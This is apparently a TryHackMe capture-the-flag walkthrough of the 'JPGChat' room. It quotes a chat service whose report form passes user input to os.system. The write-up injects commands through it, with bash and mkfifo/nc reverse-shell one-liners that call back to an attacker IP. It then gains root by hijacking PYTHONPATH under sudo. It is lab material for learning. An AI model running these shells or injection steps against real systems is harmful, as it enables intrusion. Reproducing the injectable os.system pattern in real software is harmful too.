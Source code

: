 ```yaml
---

title: Walkthrough - JPGChat
published: true
---
```


Tags: Python3, OS, Chatting, Report.
Description: Exploiting poorly made custom chatting service written in a certain language...
Difficulty: Easy
URL: [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)

* * *

## Notes

- `sudo nmap -sC -sV -sT --script vuln -O -p22,3000 10.10.237.128`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3000/tcp open  tcpwrapped
```

- `telnet 10.10.237.128 3000` lets us know we can find the service sourcecode at the github.
- [https://github.com/Mozzie-jpg/JPChat](https://github.com/Mozzie-jpg/JPChat)

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

Using [REPORT] and then using `;` to end the function followed by a bash revshell `sh -i >& /dev/tcp/10.2.127.225/6666 0>&1` gets us our first shell. This shell isnt stable and doesnt seem to give us output but using `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6667 >/tmp/f` gets us a more stable shell.

* * * 

## What is the content of user.txt?

![0xskar](/assets/jpgchat01.png)

* * * 

## What is the content of root.txt?

- `sudo -l` guartentee 

```
User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

So we only have read, access. Time to check out the source.

```
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

I then followed https://github.com/xnomas/TryHackMe-Writeups/tree/main/JPGchat because i dont know python.

```
(local) pwncat$ upload compare.py
./compare.py ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 375/375 bytes • ? • 0:00:00
[17:50:08] uploaded 375.00B in 1.96 seconds                                                                                    upload.py:76
(local) pwncat$                                                                                                                            
(remote) wes@ubuntu-xenial:/dev/shm$ ls -las
total 16
 0 drwxrwxrwt  2 root root    80 Aug 23 00:40 .
 0 drwxr-xr-x 16 root root  3560 Aug 23 00:09 ..
 4 -rw-r--r--  1 wes  wes    375 Aug 23 00:50 compare.py
12 -rw-------  1 wes  wes  12288 Aug 23 00:20 .compare.py.swp
(remote) wes@ubuntu-xenial:/dev/shm$ sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:/dev/shm# cd /root
root@ubuntu-xenial:/root# ls -las
total 24
4 drwx------  3 root root 4096 Jan 15  2021 .
4 drwxr-xr-x 25 root root 4096 Aug 23 00:09 ..
4 -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-r--r--  1 root root  305 Jan 15  2021 root.txt
4 drwx------  2 root root 4096 Jan 15  2021 .ssh
root@ubuntu-xenial:/root# cat root.txt
[REDACTED]

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
root@ubuntu-xenial:/root# 
[18:24:02] warning: 10.10.225.187:58648: connection reset   
```

* * * 

